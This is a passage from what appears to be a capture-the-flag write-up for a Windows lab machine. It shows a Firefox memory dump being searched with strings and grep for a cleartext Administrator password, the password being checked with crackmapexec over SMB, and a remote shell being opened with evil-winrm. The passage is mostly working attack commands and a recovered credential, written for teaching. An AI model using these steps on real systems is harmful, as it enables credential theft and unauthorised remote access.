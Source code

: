 Download the dump:

```bash
C:\Users\Chase\Desktop> download firefox.exe_250823_183228.dmp firefox.dmp
```

### 6.3 Extracting Credentials

Search `password` on dump file:

```bash
strings firefox.dmp | grep password
```

![](screenshots/dump_password.png)

Recovered credentials:

- **Administrator** → `4dD!5}x/re8]FBuZ`

---
## 7. Administrator Access

Validate credentials:

```bash
crackmapexec smb 10.10.10.149 -u 'Administrator' -p '4dD!5}x/re8]FBuZ'
```

![](screenshots/crackmapexec_smb_admin.png)

Obtain shell:

```bash
evil-winrm -i 10.10.10.149 -u 'Administrator' -p '4dD!5}x/re8]FBuZ'
```

![](screenshots/root_flag.png)
